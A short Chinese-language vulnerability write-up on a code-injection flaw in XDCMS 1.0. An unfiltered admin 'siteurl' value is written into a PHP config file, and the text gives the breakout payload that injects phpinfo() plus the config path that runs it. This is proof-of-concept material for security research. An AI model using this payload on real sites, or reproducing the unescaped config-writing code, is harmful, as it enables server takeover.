 # XDCMS 1.0 后台配置文件getshell

### 一、漏洞简介

### 二、漏洞影响

XDCMS 1.0

### 三、复现过程

![](images/15896415526489.png)


刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的


```php
if($tag=='config'){
    //判断url是否以/结尾
    $urlnum=strlen($info['siteurl'])-1;
    if(substr($info['siteurl'],$urlnum,1)!="/"){
        showmsg(C("update_url_error"),"-1");
    }//end

    $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
    $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
    creat_inc($cms,$cmsurl);
```

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：


```php
<?php
 define('CMS_URL','http://127.0.0.5/');
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?>
```

这里我们可以构造siteurl：


```bash
hello');?><?php phpinfo();?>
```

点击保存后，我们去查看一下该配置文件：


```php
<?php
 define('CMS_URL','hello');?><?php phpinfo();?>';
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?>
```

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://url/system/xdcms.inc.php`

![](images/15896416188108.png)
